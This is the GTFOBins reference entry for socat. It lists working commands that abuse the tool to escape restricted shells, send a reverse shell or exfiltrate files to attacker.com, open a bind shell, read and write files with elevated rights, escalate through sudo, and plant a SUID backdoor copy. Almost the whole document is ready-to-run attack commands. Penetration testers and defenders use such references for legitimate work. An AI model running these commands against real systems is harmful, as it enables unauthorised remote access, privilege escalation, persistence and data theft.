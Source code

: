 # GTFOBin: socat

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

The resulting shell is not a proper TTY shell and lacks the prompt.

```
socat stdin exec:/bin/sh
```

## Reverse shell

It can send back a reverse shell to a listening attacker to open a remote network access.

Run `socat file:`tty`,raw,echo=0 tcp-listen:12345` on the attacker box to receive the shell.

```
RHOST=attacker.com
RPORT=12345
socat tcp-connect:$RHOST:$RPORT exec:/bin/sh,pty,stderr,setsid,sigint,sane
```

## Bind shell

It can bind a shell to a local port to allow remote network access.

Run `socat FILE:`tty`,raw,echo=0 TCP:target.com:12345` on the attacker box to connect to the shell.

```
LPORT=12345
socat TCP-LISTEN:$LPORT,reuseaddr,fork EXEC:/bin/sh,pty,stderr,setsid,sigint,sane
```

## File upload

It can exfiltrate files on the network.

Run `socat -u tcp-listen:12345,reuseaddr open:file_to_save,creat` on the attacker box to collect the file.

```
RHOST=attacker.com
RPORT=12345
LFILE=file_to_send
socat -u file:$LFILE tcp-connect:$RHOST:$RPORT
```

## File download

It can download remote files.

Run `socat -u file:file_to_send tcp-listen:12345,reuseaddr` on the attacker box to send the file.

```
RHOST=attacker.com
RPORT=12345
LFILE=file_to_save
socat -u tcp-connect:$RHOST:$RPORT open:$LFILE,creat
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
LFILE=file_to_write
socat -u 'exec:echo DATA' "open:$LFILE,creat"
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
socat -u "file:$LFILE" -
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

The resulting shell is not a proper TTY shell and lacks the prompt.

```
sudo socat stdin exec:/bin/sh
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

Run `socat file:`tty`,raw,echo=0 tcp-listen:12345` on the attacker box to receive the shell.

```
sudo install -m =xs $(which socat) .

RHOST=attacker.com
RPORT=12345
./socat tcp-connect:$RHOST:$RPORT exec:/bin/sh,pty,stderr,setsid,sigint,sane
```